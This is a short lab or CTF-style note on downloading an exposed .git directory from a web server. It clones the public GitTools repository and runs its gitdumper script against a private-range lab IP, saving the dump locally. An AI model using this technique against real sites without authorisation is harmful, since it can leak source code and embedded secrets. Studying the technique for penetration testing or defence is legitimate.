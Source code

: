 ## How to Download .git folder - using git tools ,  git dumper

###  Clone GitTools:

```
git clone https://github.com/internetwache/GitTools.git
cd GitTools/Dumper
```

run `gitdumper.sh`   

```
bash GitDumper.sh http://10.10.83.104/.git/ /tmp/gitdump
```

BOOM....